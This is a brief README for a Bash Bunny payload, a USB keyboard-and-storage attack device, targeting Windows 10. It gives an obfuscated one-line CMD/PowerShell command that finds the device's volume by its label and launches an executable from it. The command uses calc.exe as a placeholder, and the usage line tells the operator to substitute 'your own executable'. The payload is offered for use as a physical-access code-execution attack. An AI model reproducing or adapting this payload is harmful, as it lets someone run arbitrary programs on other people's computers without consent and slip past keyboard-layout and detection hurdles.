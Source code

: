 # BunnyRunExeBase64
- Description:   Run calc.exe from a bunny root directory using base64 cradle in order to mitigate QWERTY and QWERTZ layouts
- Author:        ?m?
- Version:       1.0
- Category:      Execution
- Target:        Windows 10
- Attackmodes:   HID, Storage
- Raw payload:  `"CMD.exe /c ((gwmi win$(35-3)_volUME   -f 'LABel=''BashBunny''').NAME + 'CaLC.ExE')"`

# Usage
- Move calc.exe (your own executable) to the root directory before execution

# Todo
[ ] Try to mitigate dash "-"

